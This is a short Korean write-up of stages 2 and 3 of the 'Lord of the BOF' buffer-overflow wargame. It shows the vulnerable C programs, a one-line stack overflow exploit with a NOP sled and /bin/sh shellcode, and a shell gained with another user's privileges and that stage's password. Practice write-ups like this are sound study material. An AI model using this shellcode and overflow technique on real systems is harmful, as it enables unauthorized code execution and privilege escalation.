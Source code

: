 

아니 생각해보니 굳이 이걸 정성스럽게 쓸 필요가 없다는 걸 느꼈다. 모르는 걸 새로 배우는 것도 아니니 걍 대충 빨리 넘어간다.





## STAGE 2 : gremlin -> cobolt

```c
[gremlin@localhost gremlin]$ cat cobolt.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

걍 bof 버퍼 뒤 쪽으로, 즉 main 스택 프레임보다 아래 쪽에  nop sled 하면 됨

```shell
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print "\x90"*0x10 + "\xe8\xfa\xff\xbf"+ "\x10\xfa\xff\xbf" + "\x90"*0x100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
黿¿󿐐1󿿐h//shh/bin⏓ᙰ
                  ̀ 
bash$ id
uid=501(gremlin) gid=501(gremlin) euid=502(cobolt) egid=502(cobolt) groups=501(gremlin)
bash$ my-pass
euid = 502
hacking exposed
```





## STAGE 3 : cobolt -> goblin

```c
[cobolt@localhost cobolt]$ cat goblin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```
